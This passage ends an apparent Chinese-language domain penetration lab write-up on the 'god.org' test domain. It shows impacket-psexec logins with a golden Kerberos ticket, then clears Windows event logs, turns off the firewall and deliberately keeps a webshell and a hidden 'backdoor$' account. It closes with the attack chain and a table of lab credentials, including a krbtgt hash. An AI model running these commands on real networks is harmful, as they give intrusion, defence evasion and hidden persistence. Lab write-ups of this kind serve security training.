export KRB5CCNAME=/home/kali/Administrator.ccache

# 连接域控（无需密码），这个应该连接不到，不在同一个网络里面，但是我们可以做代理或者用已经控制的CS执行，已经控制了，就不许要连接了，如果后面断了，就可以用这个连接了！！！
impacket-psexec god.org/administrator@owa.god.org -k -no-pass
```
## 收尾
***清理日志
```bash
# 只清理明显痕迹，不动后门

# 1. 清理事件日志（可选）
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# 2. 关闭防火墙（保持开放）
netsh advfirewall set allprofiles state off

# 3. RDP 保持开启
# 不执行关闭命令

# 4. 不删除 webshell.php
# 不删除 backdoor$ 用户
```

## 总结

本次渗透完整走通了以下攻击链：

外网 Web 打点 → phpMyAdmin 弱口令 → general_log 写 Shell → 蚁剑连接 
→ CS 上线 → 内网扫描 → SMB Beacon 横向移动 → 域控上线 
→ 抓取 krbtgt 哈希 → 制作黄金票据

### 关键凭证

| 项目             | 值                                           |
| -------------- | ------------------------------------------- |
| 域管密码           | `hong@2019`                                 |
| 域 SID          | `S-1-5-21-2952760202-1353902439-2381784089` |
| krbtgt NTLM 哈希 | `58e91a5ac358d86513ab224312314061`          |

### 黄金票据使用

```bash
export KRB5CCNAME=/home/kali/Administrator.ccache
impacket-psexec god.org/administrator@192.168.52.138 -k -no-pass